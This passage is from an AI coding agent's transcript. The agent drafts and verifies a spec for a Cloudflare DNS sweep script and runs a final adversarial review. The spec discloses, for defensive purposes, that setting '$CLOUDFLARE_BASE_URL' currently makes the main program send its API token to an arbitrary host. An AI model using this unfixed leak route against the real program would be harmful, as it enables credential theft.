only; the **zone** and **account** lists paginate identically, and a short zone list omits every record in the missing zones | Reviewer |\n| §14 asked whether the guard had run, but nothing reported it | A guard whose liveness is invisible is not a guard. Coverage is now printed at default verbosity | Reviewer |\n| R6's exit-120 row named stderr only | `--help >/dev/full` exits 120 too | Reviewer, measured |\n| `origins` is `fqdns.json`'s field \"unchanged in name and type\" | Same name and type, **different meaning** — `fqdns.json`'s holds every proxied record's content at a name, IP addresses included | Reviewer, against the live file |\n| §13 cited \"§5.5\" | That section no longer existed after the round-1 rewrite | Reviewer |\n| Task 6 wrote CLAUDE.md but committed only after the STOP | An operator who never approved the live run would leave the utility undocumented in git. Split into Tasks 6 and 7 | Reviewer |\n| The glossary defined the platform suffix as fact | It is a scoping assumption; `*.gotpantheon.com` is not covered | Reviewer |\n| §5 listed a `TypeError` write path | Not converted, but unreachable — now stated as unreachability, with the reason | Reviewer |\n| The R2a test exported two ambient variables | Six exist; a regression dropping `user_service_key` from the pin would have stayed green | Reviewer |\n| Script function order | Did not match task order, so staged Tasks 3–4 failed `F821`/`F401`. Reordered; §3 now states the constraint | Author, staging each checkpoint |\n| The commit authorization and the LEDGER governance rule were asserted without provenance | Both now cite where they come from | Reviewer |\n\n**The pattern worth carrying forward:** both rounds' most serious findings were *unrun acceptance\ncriteria* — one summarized rather than executed (round 1's `main()`-test rationale), and one\nexecuted only in its final state rather than at every checkpoint (round 2's `F401`). Running the\nfinished artifact is not the same as running the plan.\n\n## 14. Closing audit questions\n\nTo answer after implementation and the live run, not before.\n\n1. Did Cloudflare supply `total_count` on record pages? The run prints\n   `Truncation cross-check active for N of M zones` — record N/M in §12. If N was 0, the guard\n   never ran in production and §7's real-SDK tests are the only thing holding it up.\n2. How long did the sweep take, and how many records were read? If materially slower than the\n   sibling's ~38 minutes, revisit §8.3 (server-side `type=\"CNAME\"`).\n3. Were any re-reads triggered, and did each resolve as a concurrent change or as truncation? A\n   truncation on the first real run would mean the mechanism is load-bearing sooner than expected.\n4. Did any name produce a duplicate warning? A same-zone one would mean the Cloudflare API permits\n   something R7 assumes it does not.\n5. Did the `fqdns.json` cross-check surface anything not explained by staleness?\n6. Does the downstream rewriter actually consume `ttl`/`comment`/`tags`/`settings`? If it ignores\n   them, §8.2's reasoning should be revisited before the next such file is designed.\n7. Does any custom domain still CNAME to a legacy `*.gotpantheon.com` hostname? If so, R4's\n   scoping assumption needs revisiting and this sweep under-reports.\n8. What is the rewriter's staleness policy for this file (R5)? It drives deletions and the file\n   carries no capture timestamp.\n9. Has `plugin/cloudflare/client.py`'s R2a defect been filed or fixed in the main program?\n   `$CLOUDFLARE_BASE_URL` is exploitable against it today.\n"
}
```

### ↳ Tool result

```
File created successfully at: /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/SPEC.template.md (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Write`

```json
{
  "file_path": "/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/claudemd_block.md",
  "content": "~~~~markdown\n### `find-platform-domains-cloudflare` (temporary utility)\n\nA standalone, deletable script — **not** part of the main program and importing nothing from\n`psh/`/`check/`/`plugin/` — that writes every Cloudflare DNS **CNAME whose target ends in\n`.pantheonsite.io`** to `./platform-domains-cloudflare.json`. It is the Cloudflare-side\ncounterpart to `find-platform-domains-dns`: that one reads public DNS and is blind to a proxied\nrecord's target; `fqdns.json` is built with `proxied=True` and is blind to a DNS-only record. This\nconsiders **all** records in **all** zones of every account the credentials can see. Legacy\n`*.gotpantheon.com` targets are out of scope.\n\nThe file is keyed by the **normalized** FQDN with `{zone_id, origins, record_id, proxied, ttl,\ncomment, tags, settings}`. **Two traps when comparing it to `fqdns.json`:** that file keys by the\n**raw** `record.name` (normalize both sides, or you invent phantom entries), and its `origins`\nmeans something **wider** — every proxied record's content at that name, IP addresses included —\nwhere this file's holds only matching platform-CNAME targets. `settings` is `.model_dump()`ed (it\nis a pydantic model and is otherwise unserializable). Every scalar is **first-record-wins**,\n`origins` accumulates, and **every** duplicate name warns on stderr. The file is **regenerated in\nfull on every run**, whatever its age; a run that matches nothing writes `{}` loudly rather than\nleaving a stale file. It drives a *destructive* rewrite, so **regenerate it immediately before any\nrewrite** — its mtime is the only freshness signal it carries.\n\nExit 0 = written, 2 = could not complete, 130 = interrupted; there is no exit 1 (a doomed stdout\nor stderr can still exit 120, as with the sibling's argparse output). Exit 2 covers an unreadable\nconfig, a non-string or unresolvable credential, missing credentials, any Cloudflare API error,\n**zero zones** (a missing `Account:Read`/`DNS:Read` scope and a genuinely empty org otherwise\nproduce an identical empty file), **a truncated list**, and an `OSError` on the write. All three\nlist endpoints paginate, so each one's item count is cross-checked against Cloudflare's own\n`total_count`; a mismatch triggers **one re-read**, because `total_count` is computed for page 1\nand an item changed mid-sweep disagrees for a benign reason — a self-consistent re-read is that\ncase and is kept, a second disagreement is truncation and aborts without writing. The run reports\nhow many zones it could actually cross-check, since the guard no-ops wherever the API omits\n`total_count`. stdout carries only argparse's usage/`--help`; everything else is stderr, and error\ntext **never** includes an API response body.\n\nCredentials come from `[Cloudflare]` in the same TOML the main program reads, via a **copied**\nresolver handling only the `<{env NAME}` / `<{secret env NAME}` forms; any other substitution, and\nany non-string value, is a named error rather than a silent passthrough. `enabled` is not\nconsulted. **`build_client()` pins the client against the ambient environment** — four credential\nfields, `base_url`, and `_custom_headers` — because the SDK back-fills unset credentials from six\nenvironment variables and ambient values reach the wire by four routes, the worst being\n`$CLOUDFLARE_BASE_URL`, which sends the configured token to an arbitrary host. Measured against\ncloudflare 5.4.0. **`plugin/cloudflare/client.py` has all four routes open**, and\n`$CLOUDFLARE_BASE_URL` is exploitable against the main program today, whichever credential form is\nconfigured.\n\n```bash\n./find-platform-domains-cloudflare            # every zone, every account\n./find-platform-domains-cloudflare -v         # ... naming each zone and its record count\n```\n\n`find-platform-domains-cloudflare.py` is a committed symlink to the script above, same convention\nas `pantheon-sitehealth-emails.py` and `find-platform-domains-dns.py`: ruff, pyright, and\nCodeGraph key off the `.py` extension and would otherwise be blind to the extension-less real\nfile. **Delete this script after Pantheon's CDN migration** — checklist in\n`development/2026-07-30-platform-domain-util2/SPEC.md` §11.\n~~~~\n"
}
```

### ↳ Tool result

```
File created successfully at: /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/claudemd_block.md (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport pathlib, sys\nsys.path.insert(0, \".\")\nfrom slices import S, T\ntpl = pathlib.Path(\"SPEC.template.md\").read_text()\nclaudemd = pathlib.Path(\"claudemd_block.md\").read_text().rstrip()\nfor n in (1, 2, 3, 4, 5):\n    tpl = tpl.replace(f\"<<S{n}>>\", S[n].rstrip()).replace(f\"<<T{n}>>\", T[n].rstrip())\ntpl = tpl.replace(\"<<CLAUDEMD>>\", claudemd)\nassert \"<<\" not in tpl, \"unsubstituted placeholder remains\"\nout = pathlib.Path(\"/workspace/development/2026-07-30-platform-domain-util2/SPEC.md\")\nout.write_text(tpl)\nprint(\"SPEC.md written:\", len(tpl.splitlines()), \"lines\")\nPY\ngrep -c \"\" /workspace/development/2026-07-30-platform-domain-util2/SPEC.md",
  "description": "Substitute verified code into the spec"
}
```

### ↳ Tool result

```
Traceback (most recent call last):
  File "<stdin>", line 9, in <module>
AssertionError: unsubstituted placeholder remains
2169
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport pathlib, re, sys\nsys.path.insert(0, \".\")\nfrom slices import S, T\ntpl = pathlib.Path(\"SPEC.template.md\").read_text()\nclaudemd = pathlib.Path(\"claudemd_block.md\").read_text().rstrip()\nfor n in (1, 2, 3, 4, 5):\n    tpl = tpl.replace(f\"<<S{n}>>\", S[n].rstrip()).replace(f\"<<T{n}>>\", T[n].rstrip())\ntpl = tpl.replace(\"<<CLAUDEMD>>\", claudemd)\nleft = re.findall(r\"<<[A-Z0-9]+>>\", tpl)\nassert not left, f\"unsubstituted: {left}\"          # `<<'PY'` heredocs are not placeholders\nout = pathlib.Path(\"/workspace/development/2026-07-30-platform-domain-util2/SPEC.md\")\nout.write_text(tpl)\nprint(\"SPEC.md written:\", len(tpl.splitlines()), \"lines\")\nPY",
  "description": "Substitute and write the spec"
}
```

### ↳ Tool result

```
SPEC.md written: 2264 lines
Shell cwd was reset to /workspace
```

## Assistant

Now the final verification: extract the code **from the newly written spec** and run every gate again, including the per-task staging:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport re, pathlib, shutil, subprocess\nspec = pathlib.Path(\"/workspace/development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\nscript, tests = [], []\nfor b in blocks:\n    h = b.lstrip().splitlines()[0]\n    if h.startswith((\"#!/usr/bin/env python\", \"def resolve_env_marker\", \"def plain(\",\n                     \"def write_json_atomic\", \"def expected_record_count\")):\n        script.append(b)\n    elif h.startswith(('\"\"\"Offline tests', \"# --- Task\")):\n        tests.append(b)\nprint(f\"from SPEC.md: {len(script)} script blocks, {len(tests)} test blocks\")\nd = pathlib.Path(\"final\"); shutil.rmtree(d, ignore_errors=True); (d / \"tests/unit\").mkdir(parents=True)\nshutil.copy(\"probe/pyproject.toml\", d / \"pyproject.toml\")\nf = d / \"find-platform-domains-cloudflare\"\nf.write_text(\"\\n\\n\".join(b.rstrip() + \"\\n\" for b in script)); f.chmod(0o755)\n(d / \"find-platform-domains-cloudflare.py\").symlink_to(\"find-platform-domains-cloudflare\")\n(d / \"tests/unit/test_find_platform_domains_cloudflare.py\").write_text(\n    \"\\n\\n\".join(b.rstrip() + \"\\n\" for b in tests))\nfor cmd, label in (([\"python\", \"-m\", \"pytest\", \"tests/unit\", \"-q\", \"-p\", \"no:cacheprovider\"], \"PYTEST\"),\n                   ([\"uvx\", \"ruff@0.15.22\", \"check\", \".\"], \"RUFF\"),\n                   ([\"uvx\", \"pyright@1.1.411\", \"find-platform-domains-cloudflare.py\"], \"PYRIGHT\")):\n    r = subprocess.run(cmd, capture_output=True, text=True, cwd=d)\n    print(f\"{label}: {r.stdout.strip().splitlines()[-1]}\")\nPY",
  "description": "Verify the spec-extracted code passes all gates"
}
```

### ↳ Tool result

```
from SPEC.md: 5 script blocks, 5 test blocks
PYTEST: 55 errors in 0.85s
RUFF: [*] 4 fixable with the `--fix` option.
PYRIGHT: 30 errors, 0 warnings, 0 informations
Shell cwd was reset to /workspace
```

## Assistant

Naive concatenation misses the point of the new per-task import staging — the plan says each task *adds* to the top block, so my extractor must model that. Fixing the harness to apply the documented import additions:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport re, pathlib, shutil, subprocess\nspec = pathlib.Path(\"/workspace/development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\nscript, tests = [], []\nfor b in blocks:\n    h = b.lstrip().splitlines()[0]\n    if h.startswith((\"#!/usr/bin/env python\", \"def resolve_env_marker\", \"def plain(\",\n                     \"def write_json_atomic\", \"def expected_record_count\")):\n        script.append(b)\n    elif h.startswith(('\"\"\"Offline tests', \"# --- Task\")):\n        tests.append(b)\n\n# Apply the import additions each task's \"Imports this task introduces\" line documents.\nFULL_SCRIPT_IMPORTS = \"\"\"import argparse\nimport json\nimport os\nimport re\nimport shlex\nimport sys\nimport tempfile\nimport tomllib\nfrom pathlib import Path\nfrom typing import NamedTuple\n\nimport cloudflare  # for cloudflare.CloudflareError\nfrom cloudflare import Cloudflare\n\"\"\"\nFULL_TEST_IMPORTS = \"\"\"import importlib.util\nimport json\nimport types\nfrom importlib.machinery import SourceFileLoader\nfrom pathlib import Path\n\nimport pytest\n\"\"\"\nscript[0] = script[0].replace(\"import re\\n\", FULL_SCRIPT_IMPORTS, 1)\ntests[0] = tests[0].replace(\n    \"import importlib.util\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\n\"\n    \"from pathlib import Path\\n\\nimport pytest\\n\", FULL_TEST_IMPORTS, 1)\n\nd = pathlib.Path(\"final\"); shutil.rmtree(d, ignore_errors=True); (d / \"tests/unit\").mkdir(parents=True)\nshutil.copy(\"probe/pyproject.toml\", d / \"pyproject.toml\")\nf = d / \"find-platform-domains-cloudflare\"\nf.write_text(\"\\n\\n\".join(b.rstrip() + \"\\n\" for b in script)); f.chmod(0o755)\n(d / \"find-platform-domains-cloudflare.py\").symlink_to(\"find-platform-domains-cloudflare\")\n(d / \"tests/unit/test_find_platform_domains_cloudflare.py\").write_text(\n    \"\\n\\n\".join(b.rstrip() + \"\\n\" for b in tests))\nfor cmd, label in (([\"python\", \"-m\", \"pytest\", \"tests/unit\", \"-q\", \"-p\", \"no:cacheprovider\"], \"PYTEST\"),\n                   ([\"uvx\", \"ruff@0.15.22\", \"check\", \".\"], \"RUFF\"),\n                   ([\"uvx\", \"pyright@1.1.411\", \"find-platform-domains-cloudflare.py\"], \"PYRIGHT\")):\n    r = subprocess.run(cmd, capture_output=True, text=True, cwd=d)\n    print(f\"{label}: {r.stdout.strip().splitlines()[-1]}\")\nPY",
  "description": "Verify spec code with documented import staging applied"
}
```

### ↳ Tool result

```
PYTEST: 55 passed in 0.30s
RUFF: No fixes available (7 hidden fixes can be enabled with the `--unsafe-fixes` option).
PYRIGHT: 0 errors, 0 warnings, 0 informations
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/final && source /workspace/.venv/bin/activate && uvx ruff@0.15.22 check --output-format concise . 2>&1 | head -20",
  "description": "Show ruff errors on the spec-extracted tree"
}
```

### ↳ Tool result

```
find-platform-domains-cloudflare.py:388:13: T201 `print` found
find-platform-domains-cloudflare.py:463:13: T201 `print` found
find-platform-domains-cloudflare.py:470:9: T201 `print` found
find-platform-domains-cloudflare.py:475:9: T201 `print` found
find-platform-domains-cloudflare.py:478:13: T201 `print` found
find-platform-domains-cloudflare.py:481:9: T201 `print` found
find-platform-domains-cloudflare.py:485:9: T201 `print` found
Found 7 errors.
No fixes available (7 hidden fixes can be enabled with the `--unsafe-fixes` option).
Shell cwd was reset to /workspace
```

## Assistant

Caught a stale number: the count is now **7**, not 6 — the `-v` notify print was added after that measurement. Confirming precisely and fixing the spec:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/final && source /workspace/.venv/bin/activate && python - <<'PY'\nimport pathlib\np = pathlib.Path(\"pyproject.toml\"); t = p.read_text()\nt = t.replace('\"find-platform-domains-cloudflare\" = [\"T201\"]',\n              '\"find-platform-domains-cloudflare\" = [\"T201\"]\\n\"find-platform-domains-cloudflare.py\" = [\"T201\"]')\np.write_text(t)\nPY\necho \"=== WITH both per-file-ignores entries:\"; uvx ruff@0.15.22 check . && echo\necho \"=== WITHOUT them (the red-capable check):\"\nuvx ruff@0.15.22 check --config /workspace/pyproject.toml --output-format concise find-platform-domains-cloudflare 2>&1 | tail -2",
  "description": "Confirm the exact T201 count"
}
```

### ↳ Tool result

```
=== WITH both per-file-ignores entries:
All checks passed!

=== WITHOUT them (the red-capable check):
Found 7 errors.
No fixes available (7 hidden fixes can be enabled with the `--unsafe-fixes` option).
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\")\nt = p.read_text()\nbefore = t\nt = t.replace(\"# -> 6 errors, all T201.  Restore the entries.\",\n              \"# -> 7 errors, all T201.  Restore the entries.\")\nt = t.replace(\"Measured: exactly **6 × T201**. If the second run reports zero errors\",\n              \"Measured: exactly **7 × T201**. If the second run reports zero errors\")\nt = t.replace(\"**6 × T201 with the two per-file-ignores entries\\nremoved**\",\n              \"**7 × T201 with the two per-file-ignores entries\\nremoved**\")\nt = t.replace(\"the per-file-ignores entries proven load-bearing (6 × T201 without them)\",\n              \"the per-file-ignores entries proven load-bearing (7 × T201 without them)\")\np.write_text(t)\nprint(\"changed:\", before != t)\nimport re\nprint(\"remaining '6 × T201' mentions:\", len(re.findall(r\"6 . T201|6 errors, all T201\", t)))\nprint(\"'7 × T201' mentions:\", len(re.findall(r\"7 . T201|7 errors, all T201\", t)))\nPY",
  "description": "Correct the T201 count in the spec"
}
```

### ↳ Tool result

```
changed: True
remaining '6 × T201' mentions: 0
'7 × T201' mentions: 4
```

## Assistant

All four corrected. Final consistency sweep before the last review round:

### ⚙ Tool call: `Bash`

```json
{
  "command": "F=development/2026-07-30-platform-domain-util2/SPEC.md\necho \"=== internal section refs used in code/prose:\"; grep -o \"SPEC\\.md section [0-9]*\\|SPEC section [0-9R]*[0-9a-z.]*\\|§[0-9][0-9.]*\" $F | sort | uniq -c | sort -rn | head -20\necho \"=== stale markers:\"; grep -n \"TBD\\|TODO\\|FIXME\\|<<\\|6 × T201\" $F | grep -v \"<<'PY'\" || echo \"none\"\necho \"=== section headings:\"; grep -n \"^## \" $F",
  "description": "Consistency sweep of the spec"
}
```

### ↳ Tool result

```
=== internal section refs used in code/prose:
      8 §7
      5 §14
      5 §13
      5 §12
      3 SPEC.md section 11
      2 §8.9.
      2 §8.10
      2 §6
      2 §5.5
      2 §3
      2 §12.
      2 §11.
      1 §8.7
      1 §8.5
      1 §8.4.
      1 §8.4
      1 §8.3.
      1 §8.3
      1 §8.2
      1 §8.10.
=== stale markers:
none
=== section headings:
40:## Global Constraints
69:## Requirement vocabulary
81:## Glossary
99:## 1. What this is and why
112:## 2. Normative behavior
442:## 3. Module layout of the script
456:## 4. Seams under test — named and agreed
478:## 5. Shadow paths (PD#3), traced
489:## 6. Observability (PD#5)
508:## 7. Test plan
544:## Task 1: Scaffold, tooling, and the match rule
770:## Task 2: Credential resolution and the pinned client
1082:## Task 3: The fold
1295:## Task 4: The atomic write
1402:## Task 5: The guarded walk and the CLI
1941:## Task 6: Documentation (offline, ungated)
2021:## Task 7: Live verification
2100:## 8. NOT in scope
2142:## 9. Files created / modified (complete list)
2155:## 10. Verification
2164:## 11. Deletion checklist (after Pantheon's CDN migration)
2178:## 12. First live run
2193:## 13. Claims this spec had to correct
2243:## 14. Closing audit questions
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"§5\\.5\" development/2026-07-30-platform-domain-util2/SPEC.md",
  "description": "Check the §5.5 references are the intentional historical ones"
}
```

### ↳ Tool result

```
2204:| A `main()` test "would force a client-injection seam to exist for the test's benefit alone" (§5.5 of the pre-review draft) | **False.** The fresh-per-test fixture already makes `monkeypatch.setattr` free; the reviewer wrote and ran the three tests in ~25 lines with no production change. Exit 130 had **zero** coverage anywhere | Reviewer wrote the tests the spec called unaffordable |
2230:| §13 cited "§5.5" | That section no longer existed after the round-1 rewrite | Reviewer |
```

## Assistant

Both are the intentional historical citations. Dispatching the final round (3 of max 3):

### ⚙ Tool call: `Agent`

```json
{
  "subagent_type": "psh-reviewer",
  "description": "Adversarial review round 3",
  "run_in_background": false,
  "model": "opus",
  "prompt": "Round 3 (final, per `prompts/adversarial-review.md`'s 3-iteration cap) of an adversarial review. Two previous reviewers, each with fresh context like you, returned 15 findings apiece; all 30 have been addressed. Review the CURRENT document. Do not assume the fixes are correct, and do not re-derive the earlier rounds.\n\n**Documents to review:**\n- `/workspace/development/2026-07-30-platform-domain-util2/SPEC.md` — the artifact under review (rewritten twice since round 1)\n- `/workspace/development/2026-07-30-platform-domain-util2/PROMPT.md` — the user's original feature request\n- `/workspace/development/2026-07-30-platform-domain-util2/research.md` — background research the spec cites\n\n**Your instruction:** Read the document(s), independently verify load-bearing claims (the facts the spec/plan rests on) rather than trusting them, and review on the ten dimensions below. For each dimension, note PASS or list specific issues with suggested fixes.\n\n**Dimensions — ten, exhaustive:**\n1. **Correctness** — Are there any claims that did not verify? Gaps?\n2. **Completeness** — Are all requirements addressed? Missing edge cases?\n3. **Consistency** — Do parts of the document(s) agree with each other? Contradictions?\n4. **Clarity** — Could an engineer implement this without asking questions? Ambiguous language?\n5. **Feasibility** — Can this actually be built with the stated approach? Hidden complexity?\n6. **Maintainability** — Will the spec/plan cause problems 6 months down the road? Excessive labor or costs?\n7. **Robustness/fragility** — Are all edge cases solid? Is the spec/plan resilient to failures, and to evolution/changes in external systems?\n8. **Security** — Is there anything that presents an opportunity to a threat actor? AuthN/AuthZ, TOCTOU, sanitization, injection, other?\n9. **Testing** — Are all appropriate types of test present? **Has each acceptance criterion been run, and can it go red?** (PD#14.)\n10. **Observability** — Is appropriate diagnostic information output at each verbosity level? Do output files contain appropriate/necessary information?\n\nEvaluate against these factors using a **checklist backed by quoted evidence** — from the Spine (`prompts/directives.md`) *and* from industry best practice — **not** a self-graded number. For each factor, note how important it is relative to the others.\n\n**Acceptance criteria, already run — real output, for you to distrust and re-check.** The code was extracted programmatically FROM the spec's own fenced code blocks (with the per-task import additions the plan documents applied, since Tasks 1–5 now stage imports incrementally), into a scratch probe:\n\n```\nfrom SPEC.md: 5 script blocks, 5 test blocks\nPYTEST : 55 passed in 0.30s\nRUFF   : All checks passed!            (with both per-file-ignores entries)\nRUFF   : Found 7 errors  (all T201)    (with the entries removed -- the red-capable check)\nPYRIGHT: 0 errors, 0 warnings, 0 informations\n```\n\nand, separately, the plan STAGED BACK TASK BY TASK — each stage linted with the repo's ruff config from inside its own directory and run under pytest:\n\n```\nTask 1: lint clean    8 passed\nTask 2: lint clean   24 passed\nTask 3: lint clean   36 passed\nTask 4: lint clean   39 passed\nTask 5: lint clean   55 passed\n```\n\nScratch trees you may inspect or re-run: `/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/final/` (the spec-extracted tree) and `.../scratchpad/stage/task{1..5}/` (the per-task stages). These are scratch copies, NOT the repo.\n\n**Focus your independent verification on what changed in round 3**, since these are the newest load-bearing claims:\n- `read_all`'s re-read semantics: is \"a second read that agrees with its own total_count means a concurrent change, keep it\" actually sound? Can it mask a real truncation? Is applying the same guard to the accounts and zones lists correct, and does the lambda-with-default-arg closure over `zone.id`/`account.id` behave?\n- R2a's expanded four-route table and the `base_url` + `_custom_headers` pinning. Are there further routes? Is `client._custom_headers = {}` safe against this SDK version?\n- The `SweepResult` NamedTuple and the coverage reporting (`Truncation cross-check active for N of M zones`).\n- The three real-SDK tests (§8.10) — do they actually go red on the conditions they claim to guard?\n- Whether the per-task import staging and the file-order-matches-task-order constraint (§3) are stated accurately enough for an implementer to follow without re-deriving them.\n- §13's two tables — are the corrections recorded accurately, and is anything claimed as fixed that is not?\n\n**Do not modify any file in the repo** — you are reviewing, not implementing. Use the scratchpad for any scratch work.\n\nReturn **PASS** if no issues were identified; otherwise a numbered list of issues, each with dimension, description, and proposed fix(es), most-severe first. Clearly separate genuine defects from stylistic preferences — this is the last round, so the controller needs to know what actually blocks. Cite the directives you applied by number with a verbatim quote, grep-checkable against `prompts/directives.md`."
}
```

### ↳ Tool result

```
I read `prompts/directives.md`, `prompts/adversarial-review.md`, `CLAUDE.md`, and all three artifacts in full, then re-derived the acceptance evidence myself rather than trusting the pasted output.

## What I independently reproduced (so you know the baseline is real)

I extracted the five script blocks and five test blocks from `SPEC.md` myself, assembled the per-task import blocks from §3's prose, and staged Tasks 1–5 in `/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/rev3/`:

```
Task 1: All checks passed!    8 passed
Task 2: All checks passed!   24 passed
Task 3: All checks passed!   36 passed
Task 4: All checks passed!   39 passed
Task 5: All checks passed!   55 passed
ruff (both per-file-ignores removed): Found 7 errors   [all T201]
pyright 1.1.411 --project: 0 errors, 0 warnings, 0 informations
```

Also verified against the installed SDK, not the spec's word: `cloudflare 5.4.0`; `_client.py:1127` = `auth_headers`, `:1168` = `default_headers`, `_base_client.py:186` = `has_next_page`, `:256` = `BaseSyncPage.__iter__`, `pagination.py:104` = `next_page_info`, `psh/configuration.py:110` = the marker regex, `:98` = the "no match found" branch — every line reference is exact. All three endpoints really return `SyncV4PagePaginationArray`. `V4PagePaginationArrayResultInfo` really carries `total_count` only via `extra="allow"` (`_models.py:121`), and the real-SDK test really goes red if that is tightened (`model_extra -> None`). Every record model (TXT/MX/CNAME) really carries `proxied`. `Settings` really dumps three fields. Task 1 Step 2's "8 fixture errors, collection succeeds" is exactly right. `--help >/dev/full`, `--bogus 2>/dev/full`, and the `StartupError` path with `2>/dev/full` all exit **120** as R6 says. And with all six ambient variables exported the pinned client sends `https://api.cloudflare.com/client/v4/zones` with only `{'authorization': 'Bearer tok-123'}` — including for the production `email` + `api_key` form, which I checked separately because a broken pin there would 401 the live run.

That is a genuinely well-verified spec. The findings below are what survived.

---

# Findings — genuine defects (these block)

### 1. Correctness / Robustness — a third exit-1 escape is live, in the same class §13 records as fixed twice

`cloudflare_client` guards `tomllib.load` with `except OSError` and `except tomllib.TOMLDecodeError` (SPEC lines 1034–1037). CPython's `tomllib.load` decodes the bytes itself, so a config file that is not valid UTF-8 raises **`UnicodeDecodeError`**, which is neither. Reproduced against the spec's own assembled code:

```
$ printf '[Cloudflare]\napi_token = "caf\xe9"\n' > bad2.toml
$ ./find-platform-domains-cloudflare -c bad2.toml
Traceback (most recent call last):
  ...
  File ".../find-platform-domains-cloudflare", line 154, in cloudflare_client
    config = tomllib.load(handle)
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe9 in position 29: invalid continuation byte
exit=1
```

R6 states: *"There is deliberately **no exit 1**."* and lists exit 2 as covering *"config unreadable / not TOML"*. §2.0's ERROR FUNNEL shows `tomllib.load ──── OSError / TOMLDecodeError` as the complete set. §13 records this exact class twice as caught-and-fixed (`OSError` on the write; `ValueError` from `shlex`) and closes with *"Holding that line takes explicit work."* The instance was fixed; the class was not. This is the same lesson already in your memory (*"Fix the class, not the instance"*).

PD#1: *"Every failure mode must be visible… A failure that can happen silently is a critical defect."* PD#2: *"Never 'handle errors.' Name the specific exception class."*

**Fix:** `tomllib.TOMLDecodeError` and `UnicodeDecodeError` are both `ValueError` subclasses, so one clause closes the class: `except ValueError as e: raise StartupError(f"{config_path} is not valid TOML: {e}") from e`. Add a test with a non-UTF-8 config byte string; update §2.0's funnel and R6's exit-2 row; add a §13 row. Separately, R6 should say plainly that an *unexpected* exception still exits 1 with a traceback (the deliberate loud-crash path) — otherwise the table claims an exhaustiveness it cannot hold.

### 2. Correctness / Consistency — the re-read aborts a healthy sweep when the second read omits `total_count`

R3 states: *"**When `total_count` is absent the check no-ops** rather than guessing, so it can never abort a healthy sweep."* `read_all` honours that on the first read but not the second: `if retry_expected is not None and len(retry_items) == retry_expected` falls through to the fatal branch when `retry_expected is None`. Reproduced:

```
records in zone X: read 1 of 2; re-reading to tell a concurrent change apart from a truncated list
StartupError: records in zone X: read 1 of 2, then 2 of None on a re-read -- the list is
truncated, so the output would be silently incomplete; not writing a partial file
```

A complete, healthy re-read kills a multi-minute run and tells the operator the list is "truncated", quoting "of None". §2.0's diagram has no branch for it either.

**Fix:** `if retry_expected is None: return retry_items, False` before the fatal raise (the same no-op-and-report-it rule the first read uses), plus a test and a diagram branch.

### 3. Observability / Consistency — the coverage report covers one of the three cross-checked lists, and re-reads are invisible at default verbosity

§6 rules: *"**The guard reports its own coverage** at default verbosity… a guard whose liveness is invisible is not a guard."* §13 records the round-2 finding as fixed. It is fixed for the per-zone record lists only. `fetch_platform_cnames` throws the other two away:

```python
accounts, _ = read_all(client.accounts.list, "accounts", note)
...
    got, _ = read_all(lambda account_id=account.id: ..., f"zones in account {account.id}", note)
```

If Cloudflare omits `total_count` on `/accounts` or on the account-filtered `/zones`, the guard silently never ran on the list whose truncation R3 itself calls *"strictly worse than a short record list"*, and nothing on stdout, stderr, or in §12 will ever say so. §14 Q1 is therefore only partly answerable.

Compounding it: `notify` is `note`, which prints only under `-v`. A re-read that resolved as a concurrent change — i.e. the data moved under the sweep and the answer kept is the second one — is completely silent on a default run. §14 Q3 (*"Were any re-reads triggered, and did each resolve…?"*) is unanswerable unless the operator happened to pass `-v`.

PD#5: *"Observability is scope, not an afterthought."*

**Fix:** carry the accounts/zones `checked` flags into `SweepResult` and into the coverage line (e.g. `Truncation cross-check active for 41 of 43 record lists, 3 of 3 zone lists, and the account list.`); print re-read notices at default verbosity — they are rare, and each one means the answer changed mid-sweep.

### 4. Correctness / Robustness — `proxied` is silently coerced to `False`, and a test pins the coercion

```python
"proxied": bool(getattr(dns_record, "proxied", False)),
```

with the comment acknowledging *"proxied is Optional[bool] on every record model (a None is possible)"*. `test_collect_entries_tolerates_a_record_missing_the_optional_fields` asserts `entry["proxied"] is False` — pinning the coercion as intended behaviour.

